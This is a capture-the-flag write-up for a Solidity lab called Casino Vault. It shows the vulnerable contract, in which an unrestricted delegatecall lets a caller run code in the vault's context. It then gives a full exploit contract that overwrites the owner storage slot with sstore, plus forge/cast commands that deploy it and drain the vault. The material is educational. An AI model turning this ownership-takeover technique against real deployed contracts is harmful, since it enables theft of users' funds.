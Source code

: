 The Vault of this Casino can only be opened by the owner, what are we trying to do here is to take everything from the owner, but how? &nbsp;  
&nbsp;   
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./CasinoVault.sol";

contract Setup{
    CasinoVault public CS;

    constructor() payable{
        CS = new CasinoVault{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(CS).balance == 0;
    }

}
```
&nbsp;  
it seems the Heist is successful when we managed to empty the Vault, a lot of work to be done here it seems huh? Let's look at what we're dealing with, the *CasinoVault Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract CasinoVault {
    address public gameLogic;
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function verifyIdentity(address _identity, bytes memory data) public {
        (bool success, ) = _identity.delegatecall(data);
        require(success, "Verifying failed");
    }

    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        (bool transfered, ) = payable(owner).call{value: address(this).balance}("");
        require(transfered, "Withdrawal Failed!");
    }

    receive() external payable {}
    
}
```
&nbsp;  
We can see here that we can verifyIdentify by providing an *address* and a *bytes memory data*, they use deelgatecall there, delegate call are usually used like a "borrowed function", you execute the function in order to modify the state of the caller, in this case if we parse and address an execute the data there it will execute the data and modify the state of the *Casino Vault* itself. Unlinke Silent-Dealer where there is a function to change owner here the option doesn't present. So hwo can we become the Owner and drain the vault? &nbsp;  
&nbsp;  
In EVM Assembly, there is a operation called *sstore(location, value)*, we can use this to overwrite the storage memory, let's see where the *owner* reside, &nbsp;  
&nbsp;  

```solidity
    address public gameLogic; // SLOT 0
    address public owner; // SLOT 1
```
&nbsp;  
based on that information, we can see that the owner is stored at SLOT 1, and the length since it's an address must be 20 bytes long. Now that we have the 2 options, we can either put the owner to become ourselves (EOA) or we can write the Exploit Contract Address, this can be done by either providing *origin()* (EOA) or *caller()* (msg.sender, in this case is the Exploit Contract), as the parameter. So if we want to overwrite the storage we can use &nbsp;  
&nbsp;  

```solidity
sstore(1, origin()) // for tx.origin / EOA
// or
sstore(1, caller()) // for msg.sender 
```
&nbsp;  
In this exploitation I choose to overwrite it using my EOA, so we are going to go with this exploit to drain the Vault &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./CasinoVault.sol";

contract Exploit {
    Setup public setup;
    CasinoVault public cs;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        cs = CasinoVault(setup.CS());
    }

    function exploit() public {
        cs.verifyIdentity(address(this), abi.encodeWithSignature("takeOver()"));
    }

    function takeOver() public {
        assembly {
            sstore(1, origin()) 
        }
    }

}
```
&nbsp;  
Let's deploy it and at last we going to withdraw all the money stored there &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/casino-vault/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Running the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"

// Withdrawing Everything from the Vault
cast send -r $RPC_URL --private-key $PK $VAULT_ADDR "withdraw()"
```
&nbsp;  
By running the command above and deploying the Exploit contract, you should've solved the lab!